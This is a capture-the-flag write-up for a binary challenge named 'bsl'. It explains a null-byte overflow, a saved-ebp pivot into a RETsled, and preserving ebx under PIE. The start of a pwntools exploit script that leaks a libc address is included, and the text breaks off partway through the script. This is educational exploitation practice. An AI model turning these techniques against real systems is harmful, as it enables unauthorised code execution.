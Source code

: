 bsl
===========================
Flag: FLAG{}

General overview of problems faced
-------------------------------------
The ROP aspect of this challenge wasn't hard, but what was challenging was identifying the vuln; the sneaky null byte overflow. After realising this would grow the ebp value of the previous frame it became clear that I could make the fav function jump to somewhere within the large buffer. This meant RETsled time.

However I would get crashes at weird addresses once the least_fav function has finished. Took me a while to realise that I needed to preserve the stored ebx value on the stack since this was used for the relative calls to the GOT due to PIE being enabled.

Script/Command used (Writeup)
------------------
```
from pwn import *

PROG_NAME = "./bsl"
REMOTE_IP = "plsdonthaq.me"
REMOTE_PORT = 8001
REMOTE_LIBC = "./libc6_2.27-3ubuntu1_i386.so"
LOCAL_LIBC = "/lib/i386-linux-gnu/libc.so.6"

if args.REMOTE:
    p = remote(REMOTE_IP, REMOTE_PORT)
    elf = ELF(PROG_NAME)
    libc = ELF(REMOTE_LIBC)
    ret_gadget = 0x00000417
else:
    p = process(PROG_NAME)
    elf = p.elf
    libc = ELF(LOCAL_LIBC)
    ret_gadget = 0x0001d144

if args.ATTACH:
	gdb.attach(p, '''break least_fav''')

'''
bsl gadgets:
0x000004a6: ret;


local libc gadgets:
0x0001d144: ret;


remote libc gadgets:
0x00000417: ret;
'''

'''
There is an 0x539 size buffer on the stack, created in the fav() function
(which starts at ebp-0x541)
memset is applied so it initially has all 0s
'''

# yes i wanna be your friend
p.sendlineafter("(y/n)\n", "y")
p.recvuntil(": ")

# note the favourite number which is puts' libc address
# then we can work out the libc base
```